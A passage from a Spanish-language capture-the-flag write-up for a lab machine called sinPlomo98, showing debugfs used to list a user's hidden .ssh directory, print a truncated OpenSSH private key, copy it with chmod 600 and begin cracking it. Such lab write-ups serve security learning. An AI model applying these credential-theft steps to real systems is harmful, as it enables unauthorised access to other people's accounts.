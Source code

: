 <img src="/assets/images/THL-writeup-sinPlomo98/Captura13.png">
</p>

Genial, vemos el contenido del directorio y ahí está el directorio oculto `.ssh`.

Veamos si existen **llaves del SSH**:
```bash
debugfs:  ls -l .ssh
```

<p align="center">
<img src="/assets/images/THL-writeup-sinPlomo98/Captura14.png">
</p>

Ahí están las llaves y podemos ver la **llave privada id_rsa**.

Veamos su contenido:
```bash
debugfs:  cat .ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABCTkrWdzR
O/rgbxJO5rgjDoAAAAEAAAAAEAAAGXAAAAB3NzaC1yc2EAAAADAQABAAABgQCT0o/N70Qo
/KnWIFpRA64iNIWMAdaKm7VQm5TweGE6nWBXTLdPAPI3T5ehoI6odBywxIIHCTu/zhHcuJ
e4aHMT/5Qb1lJcsCErwmFveA1/1qyby+K46P1i/LrWIL2...
...
```

Bien, copiémoslo en nuestra máquina y, de una vez, vamos a darle los permisos necesarios para usarla más adelante:
```bash
chmod 600 id_rsa
```
Ahora, tratemos de crackearla.
